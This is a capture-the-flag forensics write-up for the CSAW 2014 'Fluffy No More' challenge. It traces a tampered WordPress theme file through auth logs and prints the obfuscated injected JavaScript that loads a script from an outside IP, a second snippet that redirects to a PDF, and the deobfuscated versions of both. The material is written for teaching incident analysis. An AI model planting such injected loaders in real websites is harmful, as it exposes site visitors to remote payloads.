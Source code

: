 # CSAW CTF 2014: Fluffy No More

**Category:** Forensics
**Points:** 300
**Description:**

> OH NO WE'VE BEEN HACKED!!!!!! -- said the Eye Heart Fluffy Bunnies Blog owner. Life was grand for the fluff fanatic until one day the site's users started to get attacked! Apparently fluffy bunnies are not just a love of fun furry families but also furtive foreign governments. The notorious "Forgotten Freaks" hacking group was known to be targeting high powered politicians. Were the cute bunnies the next in their long list of conquests!??
>
> Well... The fluff needs your stuff. I've pulled the logs from the server for you along with a backup of its database and configuration. Figure out what is going on!
>
> Written by brad_anton
>
> [CSAW2014-FluffyNoMore-v0.1.tar.bz2](CSAW2014-FluffyNoMore-v0.1.tar.bz2)

## Write-up

As its extension suggests, [the provided `CSAW2014-FluffyNoMore-v0.1.tar.bz2` file](CSAW2014-FluffyNoMore-v0.1.tar.bz2) is a bzip2-compressed tarball:

```bash
$ file CSAW2014-FluffyNoMore-v0.1.tar.bz2
CSAW2014-FluffyNoMore-v0.1.tar.bz2: bzip2 compressed data, block size = 900k
```

Let’s extract it:

```bash
$ tar xjfv CSAW2014-FluffyNoMore-v0.1.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/
x CSAW2014-FluffyNoMore-v0.1/etc_directory.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/logs.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/mysql_backup.sql.bz2
x CSAW2014-FluffyNoMore-v0.1/webroot.tar.bz2
```

Oh, it contains more tarballs! Let’s extract those as well:

```bash
$ cd CSAW2014-FluffyNoMore-v0.1

$ for file in *.tar.bz2; do mkdir -p "${file}-extracted"; tar --directory "${file}-extracted" -xjf "${file}"; done
```

Viewing `logs.tar.bz2-extracted/var/log/auth.log` reveals an interesting entry:

```
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```

Someone with root access to the server edited the web-exposed `/wp-content/themes/twentythirteen/js/html5.js` file. Reviewing the file’s contents (`webroot.tar.bz2-extracted/var/www/html/wp-content/themes/twentythirteen/js/html5.js`), it’s clear that some malicious JavaScript code was inserted.

```js
var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```

The above script is equivalent to the following:

```js
document.write("<script src='http://128.238.66.100/analytics.js'><\/script>");
```

Let’s download [the `analytics.js` file](analytics.js) so we can take a look at it:

```bash
$ wget http://128.238.66.100/analytics.js
```

The file consists of minified code, most of which is legitimate. A small part of it stands out because it’s obfuscated, though:

```js
var _0x91fe=["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66","\x5F\x73\x65\x6C\x66","\x6F\x70\x65\x6E"];window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```

This [is equivalent to](https://mothereff.in/js-escapes#1var%20%5f0x91fe%3D%5B%22%5Cx68%5Cx74%5Cx74%5Cx70%5Cx3A%5Cx2F%5Cx2F%5Cx31%5Cx32%5Cx38%5Cx2E%5Cx32%5Cx33%5Cx38%5Cx2E%5Cx36%5Cx36%5Cx2E%5Cx31%5Cx30%5Cx30%5Cx2F%5Cx61%5Cx6E%5Cx6E%5Cx6F%5Cx75%5Cx6E%5Cx63%5Cx65%5Cx6D%5Cx65%5Cx6E%5Cx74%5Cx2E%5Cx70%5Cx64%5Cx66%22%2C%22%5Cx5F%5Cx73%5Cx65%5Cx6C%5Cx66%22%2C%22%5Cx6F%5Cx70%5Cx65%5Cx6E%22%5D%3Bwindow%5B%5f0x91fe%5B2%5D%5D%28%5f0x91fe%5B0%5D%2C%5f0x91fe%5B1%5D%29%3B):

```js
var _0x91fe=["http://128.238.66.100/announcement.pdf","_self","open"];
window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```

…which is equivalent to:

```js
window.open('http://128.238.66.100/announcement.pdf', '_self');
```

Let’s download [that `announcement.pdf` file](announcement.pdf):

```bash
$ wget http://128.238.66.100/announcement.pdf
```

Opening the PDF file in [PDF Stream Dumper](http://sandsprite.com/blogs/index.php?uid=7&pid=57) reveals some hidden JavaScript code:

![](pdf-stream-dumper.png)

```js
var _0xee0b=["\x59\x4F\x55\x20\x44\x49\x44\x20\x49\x54\x21\x20\x43\x4F\x4E\x47\x52\x41\x54\x53\x21\x20\x66\x77\x69\x77\x2C\x20\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x20\x6F\x62\x66\x75\x73\x63\x61\x74\x69\x6F\x6E\x20\x69\x73\x20\x73\x6F\x66\x61\x20\x6B\x69\x6E\x67\x20\x64\x75\x6D\x62\x20\x20\x3A\x29\x20\x6B\x65\x79\x7B\x54\x68\x6F\x73\x65\x20\x46\x6C\x75\x66\x66\x79\x20\x42\x75\x6E\x6E\x69\x65\x73\x20\x4D\x61\x6B\x65\x20\x54\x75\x6D\x6D\x79\x20\x42\x75\x6D\x70\x79\x7D"];var y=_0xee0b[0];
```

This [is equivalent to](https://mothereff.in/js-escapes#1var%20%5f0xee0b%3D%5B%22%5Cx59%5Cx4F%5Cx55%5Cx20%5Cx44%5Cx49%5Cx44%5Cx20%5Cx49%5Cx54%5Cx21%5Cx20%5Cx43%5Cx4F%5Cx4E%5Cx47%5Cx52%5Cx41%5Cx54%5Cx53%5Cx21%5Cx20%5Cx66%5Cx77%5Cx69%5Cx77%5Cx2C%5Cx20%5Cx6A%5Cx61%5Cx76%5Cx61%5Cx73%5Cx63%5Cx72%5Cx69%5Cx70%5Cx74%5Cx20%5Cx6F%5Cx62%5Cx66%5Cx75%5Cx73%5Cx63%5Cx61%5Cx74%5Cx69%5Cx6F%5Cx6E%5Cx20%5Cx69%5Cx73%5Cx20%5Cx73%5Cx6F%5Cx66%5Cx61%5Cx20%5Cx6B%5Cx69%5Cx6E%5Cx67%5Cx20%5Cx64%5Cx75%5Cx6D%5Cx62%5Cx20%5Cx20%5Cx3A%5Cx29%5Cx20%5Cx6B%5Cx65%5Cx79%5Cx7B%5Cx54%5Cx68%5Cx6F%5Cx73%5Cx65%5Cx20%5Cx46%5Cx6C%5Cx75%5Cx66%5Cx66%5Cx79%5Cx20%5Cx42%5Cx75%5Cx6E%5Cx6E%5Cx69%5Cx65%5Cx73%5Cx20%5Cx4D%5Cx61%5Cx6B%5Cx65%5Cx20%5Cx54%5Cx75%5Cx6D%5Cx6D%5Cx79%5Cx20%5Cx42%5Cx75%5Cx6D%5Cx70%5Cx79%5Cx7D%22%5D%3Bvar%20y%3D%5f0xee0b%5B0%5D%3B):

```js
var _0xee0b=["YOU DID IT! CONGRATS! fwiw, javascript obfuscation is sofa king dumb  :) key{Those Fluffy Bunnies Make Tummy Bumpy}"];
var y=_0xee0b[0];
```

The flag is `Those Fluffy Bunnies Make Tummy Bumpy`.

## Other write-ups and resources

* <http://balidani.blogspot.com/2014/09/csaw14-fluffy-no-more-writeup.html>
* <http://sugarstack.io/csaw2014-fluffy-no-more/>
* <https://hackucf.org/blog/csaw-2014-forensics-300-fluffy-no-more/>
*[bt3gl's](http://bt3gl.github.io/csaw-ctf-2014-forensics-300-fluffy-no-more.html)
